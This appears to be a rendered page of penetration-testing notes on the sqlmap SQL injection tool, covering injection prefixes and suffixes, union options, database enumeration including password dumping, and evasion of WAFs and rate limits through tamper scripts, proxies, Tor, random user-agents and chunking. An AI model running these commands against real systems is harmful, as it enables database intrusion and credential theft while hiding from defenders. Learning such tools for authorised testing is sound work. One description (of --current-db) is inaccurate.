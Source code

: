 Sometimes you need to specify specific characters for the inject. This can be done like this.
```
--prefix="%'))" 
#or
--suffix="-- -"
```
Little extra for unions
```
--union-cols=<n>
--union-char='<value>' #to specify dummy value instead of NULL
--union-from <table>
```
**Database Enumeration**
Use `--current-user` to identify current DBMS user
Use `--banner` to banner grab DBMS version
Use `--current-db` to identify the DB administrator
Use `--tables -D <DB name>` to identify tables
Use `-C` to specify specific columns to output
Use `--start=<n>` and `--end=<n+>` to specify start and stop rows
Conditional Logic `--where="name LIKE 'f%'"
Use `--passwords` to identify passwords

**Bypassing Defensive Measures**
To add a token add `--csrf-token` inside the data param or in the command like this 
```
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```
If the system blocks repeat requests, try adding a random string with `--randomize=<str>`
You can use evaluated parameters to bypass calculated params. This can be done like this 
```
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI
```
To bypass WAF settings you can also use a proxy like this
```
--proxy="socks4://<ip>/
```
If you need more anonymity you can make a proxy file and use this param to rotate through proxies until one is blocked. 
```
--proxy-file
```
If you want to use Tor, use `--tor` to proxy through there. To verify Tor is working try `--check-tor`

If you suspect a user-agent blacklist use `--random-agent` to switch randomly between different browser user agents.

Tamper Script
Use these to bypass some types of WAF's. They modify the data before it hits the target. These 2 are the most common
```
--tamper=between,randomcase
```
Last up we can use chunks. It splits SQL statements into different chunks to bypass WAF's. The option for this is `-chunked`
